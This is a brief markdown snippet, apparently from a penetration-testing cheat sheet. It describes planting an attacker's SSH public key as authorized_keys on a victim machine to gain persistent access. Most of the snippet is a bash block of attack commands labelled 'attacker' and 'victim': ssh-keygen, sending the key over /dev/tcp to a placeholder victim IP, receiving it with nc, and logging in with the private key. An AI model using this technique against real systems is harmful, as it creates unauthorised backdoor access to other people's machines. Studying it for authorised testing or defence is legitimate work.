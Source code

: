 
1. Generate new pair of key (using ssh-keygen)

2. Drop your generated public key into target .ssh dir (if not then create this dir)

3. Rename your dropped public key file into authorized_keys.


```bash
# attacker
ssh-keygen
cat id_rsa.pub > /dev/tcp/iP_victima/port
# victim
cd .ssh
nc -lvnp port > authorized_keys
# attacker
ssh -i id_rsa name@host
```